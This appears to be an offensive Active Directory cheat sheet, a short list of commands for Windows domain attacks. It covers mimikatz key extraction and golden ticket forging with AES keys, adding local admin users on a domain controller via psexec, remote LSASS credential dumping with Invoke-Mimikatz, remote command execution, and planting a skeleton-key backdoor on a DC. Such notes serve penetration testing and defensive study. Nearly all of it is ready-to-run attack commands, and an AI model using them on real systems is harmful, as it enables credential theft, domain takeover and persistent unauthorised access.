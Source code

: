 


Microsoft AD: Golden Ticket with AES Keys
-----------------------------------------------
Similar to the upgrade from PtH to OPtH, use the user's AES256 key to obtain a golden ticket.

```
mimikatz "privilege::debug" "sekurlsa::ekeys" "exit"

mimikatz "privilege::debug" "kerberos::golden /user:<username> /domain:<domain> /sid:<sid> /aes256:<aes256_key> /groups:<groups> /startoffset:-1 /endin:2500 /renewmax:3000 /ptt"
```





Windows: PowerShell remoting via PsExec
----------------------------------------------

In this example, we merely create a new local user on the target and then add the user to a localgroup.

```
psexec \\<remote-DC> -accepteula net user <username> <password> /add
psexec \\<remote-DC> -accepteula net localgroup <groupname> <username> /Add
```


Windows: PSRemoting (PowerShell) inject credentials into remote system's LSASS
---------------------------------------------------------------------------

Use PowerSploit:

```
Invoke-Mimikatz -Command ' "privilege::debug" "LSADump::LSA /inject" ' -Computer dc.local
```


Windows: PSRemoting Command Execution
-----------------------------------------------

```
Invoke-Command -ComputerName <computer_name> -ScriptBlock { del c:\flag.txt }
```




Microsoft AD: Skeleton Key Persistence
---------------------------------------
This uses mimikatz on a remote DC to deploy skeleton master keys. From an unprivileged account, login as a domain administrator to the remote DC using that key (named "mimikatz" in this example).

```
xcopy mimikatz \\<remote-DC>\c$\temp\

psexec \\<remote-DC> -accepteula cmd /c (cd c:\temp ^& mimikatz "privilege::debug" "misc::skeleton" ^& "exit")

net use k:\\<remote-DC>c$ mimikatz /user:<admin-username>@<domain>
```
